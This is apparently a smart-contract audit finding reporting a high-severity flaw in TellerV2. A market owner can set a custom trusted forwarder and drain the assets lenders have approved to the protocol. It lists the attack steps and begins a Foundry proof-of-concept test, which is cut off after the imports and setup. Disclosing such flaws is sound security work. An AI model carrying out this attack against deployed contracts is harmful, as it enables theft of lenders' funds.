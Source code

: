 dingo

high

# [H-04] Market owner can steal all lender's approved assets to protocol.

## Summary
SC: TellerV2Context.sol

The core of vulnerability is lying in function `setTrustedMarketForwarder()`. Market owner can set custom marketForwarder address and steal all approved assets by all lenders to protocol. 

## Vulnerability Detail
Step by step attack vector:
1) MarketOwner create market.
2) MarketOwner call `setTrustedMarketForwarder()`, set custom marketForwarder address.
3) Lender's and borrowers are going to use revolve loans, marketOwner waiting for big volume of approvals.
4) Market owner now can steal all lender's approved assets by 2 ways:
-by use custom-attack functions() in custom marketForwarder contract like `changeCommitment()`.
-use another exploit from my previous finding ` [H-03] Attacker can steal all approved lender's assets without lost of collateral.`

Here we will see first attack vector with custom smart contract `marketForwarder`. Second vector is described detailed in separate report.

Foundry test:
1) Create `H-04.t.sol `and run `forge test --match-path tests/TellerV2/H-04.t.sol -vvvv` 
2) Test code:  

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "forge-std/Test.sol";
import "../../contracts/TellerV2.sol";
import "../tokens/TestERC20Token.sol";
import "./User.sol";

import "../../contracts/EAS/TellerAS.sol";
import "../../contracts/EAS/TellerASEIP712Verifier.sol";
import "../../contracts/EAS/TellerASRegistry.sol";

import {ReputationManager} from "../../contracts/ReputationManager.sol";
import "../../contracts/CollateralManager.sol";
import "../../contracts/LenderManager.sol";
import {MarketRegistry} from "../../contracts/MarketRegistry.sol";
import { LenderCommitmentForwarder } from "../../contracts/LenderCommitmentForwarder.sol";  
import { LenderCommitmentForwarderFake } from "../../contracts/LenderCommitmentForwarderFake.sol";  


import "../../contracts/escrow/CollateralEscrowV1.sol";
import "@openzeppelin/contracts/proxy/beacon/UpgradeableBeacon.sol";

contract MyTest is Test {

    address public attacker = vm.addr(12345);
    address public borrowerTrusted = vm.addr(123456);

    TellerV2 tellerV2;
    TestERC20Token lendingToken;
    TestERC20Token lendingTokenZeroDecimals;
    User borrower;
```